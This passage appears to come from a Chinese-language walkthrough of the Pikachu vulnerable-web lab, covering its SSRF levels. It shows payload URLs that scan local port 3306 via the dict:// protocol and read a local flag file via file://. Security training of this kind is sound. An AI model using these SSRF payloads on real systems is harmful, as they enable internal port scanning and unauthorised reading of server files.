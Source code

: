 

<br>利用dict协议扫描3306端口是否开放: `http://127.0.0.1/pikachu/vul/ssrf/ssrf_curl.php?url=dict://127.0.0.1:3306`	

<img src="pikachu靶场/image-20221201181309981.png" alt="image-20221201181309981" style="zoom: 67%;" />	

<br>

## SSRF(file_get_content)	

该关卡会用到`file_get_content`函数, 该函数的作用是读取文件的内容, 可直接读取主机绝对路径或相对路径的文件, 也可以使用php伪协议进行利用

```
http://127.0.0.1:81/pikachu/vul/ssrf/ssrf_fgc.php?file=file:///E:/phpStudy/WWW/flag.txt
```

![image-20221202162101988](pikachu靶场/image-20221202162101988.png)
